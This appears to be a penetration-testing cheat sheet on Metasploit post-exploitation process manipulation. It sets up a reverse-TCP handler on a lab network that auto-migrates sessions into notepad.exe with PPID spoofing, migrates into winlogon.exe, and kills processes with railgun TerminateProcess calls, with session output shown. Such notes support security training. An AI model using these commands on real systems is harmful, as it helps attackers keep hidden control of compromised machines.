 # 04 - Process Manipulation

Search Tag(s): #metasploit-framework #command-and-control #interactive-shell

## 4.1 - Migrate to Another Process

* Setting up listener to auto migrate to another process

```
msf exploit(multi/handler) > set lhost 10.0.2.4

msf exploit(multi/handler) > set lport 4444

msf exploit(multi/handler) > set autorunscript post/windows/manage/migrate name=notepad.exe

msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.0.2.4:4444 
[*] Sending stage (200262 bytes) to 10.0.2.15
[*] Session ID 4 (10.0.2.4:4444 -> 10.0.2.15:49840 ) processing AutoRunScript 'post/windows/manage/migrate name=notepad.exe'
[*] Running module against DEFALT
[*] Current server process: powershell.exe (1136)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 1280
[+] Successfully migrated into process 1280
[*] Meterpreter session 4 opened (10.0.2.4:4444 -> 10.0.2.15:49840 ) at 2022-05-15 15:35:51 -0400
```

* Migrate to another process

```
meterpreter > migrate -h
Usage: migrate <<pid> | -P <pid> | -N <name>> [-t timeout]

Migrates the server instance to another process.
NOTE: Any open channels or other dynamic state will be lost.

meterpreter > migrate <pid>

meterpreter > migrate -N <process_name>

meterpreter > migrate -N winlogon.exe
[*] Migrating from 4980 to 412...
[*] Migration completed successfully.
```

## 4.2 - Get Process ID

```
meterpreter > getpid
Current pid: 1280
```

## 4.3 - Terminate Process

### 4.3.1 - Process ID

Terminate process ID.

```
meterpreter > kill <pid>
```

We'll create a new handle by retrieving the process ID. Then define a process handle `_['return']` after the conditions has been met. Terminate by calling the railgun function with zero exit code as an indication the process has been killed.

```
meterpreter > irb

>> client.railgun.kernel32.OpenProcess("PROCESS_TERMINATE", false, <pid>)

>> process_handle = _['return'] -> define a process handle

>> client.railgun.kernel32.TerminateProcess(process_handle, 0)
```

### 4.3.1 - Process Name

```
meterpreter > pkill <process_name>
```